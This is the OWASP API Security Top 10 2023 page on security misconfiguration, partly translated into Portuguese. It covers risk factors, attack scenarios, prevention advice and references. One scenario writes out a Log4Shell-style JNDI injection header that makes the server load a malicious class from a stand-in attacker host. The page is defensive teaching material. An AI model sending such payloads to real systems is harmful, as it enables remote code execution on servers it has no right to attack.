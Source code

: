 # API8:2023 Security Misconfiguration

| Agentes Ameaça/Vetores Ataque | Falha Segurança | Impactos |
| - | - | - |
| Específico da API : Abuso **Fácil** | Prevalência **Predominante** : Detectability **Fácil** | Técnico **Severo** : Específico do Negócio |
| Os atacantes frequentemente tentam encontrar falhas não corrigidas, _endpoints_ comuns, serviços a funcionar com configurações padrão inseguras ou arquivos e diretórios não protegidos para obter acesso não autorizado ou conhecimento do sistema. A maior parte disto é conhecimento público e os _exploits_ podem estar disponíveis. | A má configuração de segurança pode ocorrer em qualquer nível da API, desde o nível da rede até o nível da aplicação. Ferramentas automatizadas estão disponíveis para detectar e explorar más configurações, como serviços desnecessários ou opções antigas. | As más configurações de segurança não expõem apenas dados sensíveis dos utilizadores, mas também detalhes do sistema que podem levar a um compromisso total do servidor. |

## A API é vulnerável?

A API pode ser vulnerável se:

* As devidas proteções de segurança não foram aplicadas em qualquer parte da
  API, ou se houver permissões mal configuradas em serviços de nuvem.
* Os últimos _patches_ de segurança estão em falta ou os sistemas estão
  desatualizados.
* Funcionalidades desnecessárias estão ativadas (por exemplo, verbos HTTP,
  funcionalidades de registo de eventos).
* Existem discrepâncias na forma como os pedidos são processados pelos
  servidores na cadeia de servidores HTTP.
* A Segurança da Camada de Transporte (TLS) está em falta.
* Diretivas de segurança ou de controlo de cache não são enviadas aos clientes.
* Uma política de Partilha de Recursos entre Origens (CORS) está em falta ou mal
  configurada.
* As mensagens de erro incluem _stack traces_ ou expõem outras informações
  sensíveis.

## Exemplos de Cenários de Ataque

### Cenário #1

Um servidor de API _back-end_ mantém um registo de acesso escrito por uma 
utilidade de registo _open-source_ popular de terceiros, com suporte para 
expansão de espaços reservados e pesquisas JNDI (Java Naming and Directory 
Interface), ambos ativados por defeito. Para cada pedido, uma nova entrada é 
escrita no ficheiro de registo com o seguinte padrão: 
`<method> <api_version>/<path> - <status_code>`.

Um ator malicioso emite o seguinte pedido de API, que é escrito no ficheiro de
registo de acesso:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Devido à configuração padrão insegura da utilidade de registo e a uma política 
de rede de saída permissiva, para escrever a entrada correspondente no registo 
de acesso, ao expandir o valor no cabeçalho `X-Api-Version` do pedido, a 
utilidade de registo irá buscar e executar o objeto `Malicious.class` do 
servidor controlado remotamente pelo atacante.

### Cenário #2

A social network website offers a "Direct Message" feature that allows users to
keep private conversations. To retrieve new messages for a specific
conversation, the website issues the following API request (user interaction is
not required):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Because the API response does not include the `Cache-Control` HTTP response
header, private conversations end-up cached by the web browser, allowing
malicious actors to retrieve them from the browser cache files in the
filesystem.

## How To Prevent

The API life cycle should include:

* A repeatable hardening process leading to fast and easy deployment of a
  properly locked down environment
* A task to review and update configurations across the entire API stack. The
  review should include: orchestration files, API components, and cloud
  services (e.g. S3 bucket permissions)
* An automated process to continuously assess the effectiveness of the
  configuration and settings in all environments

Furthermore:

* Ensure that all API communications from the client to the API server and any
  downstream/upstream components happen over an encrypted communication channel
  (TLS), regardless of whether it is an internal or public-facing API.
* Be specific about which HTTP verbs each API can be accessed by: all other
  HTTP verbs should be disabled (e.g. HEAD).
* APIs expecting to be accessed from browser-based clients (e.g., WebApp
  front-end) should, at least:
  * implement a proper Cross-Origin Resource Sharing (CORS) policy
  * include applicable Security Headers
* Restrict incoming content types/data formats to those that meet the business/
  functional requirements.
* Ensure all servers in the HTTP server chain (e.g. load balancers, reverse
  and forward proxies, and back-end servers) process incoming requests in a
  uniform manner to avoid desync issues.
* Where applicable, define and enforce all API response payload schemas,
  including error responses, to prevent exception traces and other valuable
  information from being sent back to attackers.

## References

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### External

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
